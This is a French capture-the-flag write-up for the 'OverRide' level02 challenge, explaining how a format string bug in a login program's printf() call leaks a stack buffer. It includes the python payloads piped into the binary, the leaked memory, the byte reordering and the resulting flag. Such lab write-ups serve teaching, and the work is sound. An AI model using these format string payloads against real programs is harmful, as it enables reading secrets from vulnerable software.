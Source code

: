 # Level 02

### Protections

![](Ressources/protections.png)

### Analyse

Le programme demande un **username** et un **password** a l'aide de `fgets()`.

Le programme ouvre le fichier `/home/users/level03/.pass` que l'on convoite tant. En effet, si on entre un certain mot de passe, le programme nous montrera le contenu du `.pass`.

*Vu que GDB supprime le bit SUID, l'ouverture et la lecture du .pass ne fonctionnera pas et le programme crashera, on va donc devoir se passer de celui-ci.*

Seulement, c'est un `strncmp()` qui fait la verification, et il compare notre entree au contenu du `.pass`. *Donc pour avoir le mot de passe de level03 il nous faut le mot de passe de level03* 🥲

Le programme parrait protege a une attaque de type Buffer Overflow.

Mais si on l'examine de plus pres, il y a un `printf()` qui prend en parametre notre entree. On a rien a perdre alors pourquoi ne pas tenter un **Format String Injection** ?

> level02@OverRide:~$ ./level02
> ===== [ Secure Access System v1.0 ] =====
> /***************************************
> | You must login to access this system. |
> \**************************************/
> --[ Username: %x%x%x%x
> --[ Password: .
>
> ffffe3d002e2a2a2a2a does not have access!

Interessant, on sait maintenant qu'**on peut lire et ecrire dans la memoire**.

Jetons un coup d'oeil au code desassemble:

* Le buffer contenant la string lue par `printf()` est situe a `$rbp-0x70`
* Le buffer contenant le flag (`fread()`) se situe a `$rbp-0xa0`

*Techniquement, le premier buffer se situe donc avant le second.*

Quand on effectue un **Format String Injection**, `printf()` lit la memoire a partir du registre `rsp` en remontant vers `rbp`.

➤ Cela signifie qu'on va peut-etre pouvoir lire le contenu du `fread()`

### Exploitation

On sait que:

* La distance qui separe les deux buffers est de **48 octets**
* `printf()` va nous permettre de lire le buffer du `fread()` en faisant un **Format String Injection**
* Il s'agit d'un code **x86_64**

On doit dans un premier temps savoir quel est l'offset pour "Overflow" sur le buffer de `printf()`.

> (python -c 'print "A"*8 + " %p"*28') | ./level02
> ===== [ Secure Access System v1.0 ] =====
> /***************************************
> | You must login to access this system. |
> \**************************************/
> --[ Username: --[ Password: *****************************************
> AAAAAAAA 0x7fffffffe3d0 (nil) (nil) 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe5c8 0x1f7ff9a08 (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) 0x100000000 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d (nil) 0x4141414141414141 does not have access!

1. On print 8 'A' de maniere a obtenir 0x414141.. dans la memoire et detecter facilement a partir de quand `printf()` lit le 1er buffer.
2. %p affiche un adresse memoire, sur 8 octets ici.

*On donne des format a `printf()` mais celui-ci n'a pas d'arguments a prendre pour ceux-ci, il va donc afficher ce qu'il a sous la main est iterer dans la memoire du programme.*

On retrouve donc notre entree sous forme hexadecimal (0x4141414141414141) a **28*8 octets**.

On peut reiterer l'experience plus proprement comme ceci:

> (python -c 'print "AAAAAAAA" + "%28$p"') | ./level02
> ===== [ Secure Access System v1.0 ] =====
> /***************************************
> | You must login to access this system. |
> \**************************************/
> --[ Username: --[ Password: *****************************************
> AAAAAAAA0x4141414141414141 does not have access!

**On sait comment retrouver le premier buffer**, et la distance entre les deux buffer reste inchangee.

Il nous suffit alors de faire le calcul suivant:

> 28 - (48 / 8) = 22
>
> donc (python -c 'print "AAAAAAAA" + "%22$p"') | ./level02 devrait nous donne la premiere partie du .pass (la derniere en realite)

*On sait que le .pass comporte 40 octets a chaque level, on doit donc lire 5*8 octets.*

```
(python -c 'print "%22$lx" + "%23$lx" + "%24$lx" + "%25$lx" + "%26$lx"') | ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
756e50523437684845414a3561733951377a7143574e6758354a35686e47587348336750664b394d does not have access!
```

*On remplace %p par %lx pour esquiver les "0x".*

**On a donc le password sous forme hexadecimale, mais les blocks de 8 sont en Little Endian, il va donc falloir tout remettre dans le bon ordre.**

756e5052 34376848 45414a35 61733951 377a7143 574e6758 354a3568 6e475873 48336750 664b394d

> 75 6e 50 52 34 37 68 48
> 45 41 4a 35 61 73 39 51
> 37 7a 71 43 57 4e 67 58
> 35 4a 35 68 6e 47 58 73
> 48 33 67 50 66 4b 39 4d

devient

> 48 68 37 34 52 50 6e 75  // On reverse simplement les octets de chaque bloc de 8
> 51 39 73 61 35 4a 41 45
> 58 67 4e 57 43 71 7a 37
> 73 58 47 6e 68 35 4a 35
> 4d 39 4b 66 50 67 33 48

Il ne nous reste plus qu'a convertir cela en ASCII.



Flag: **Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H**
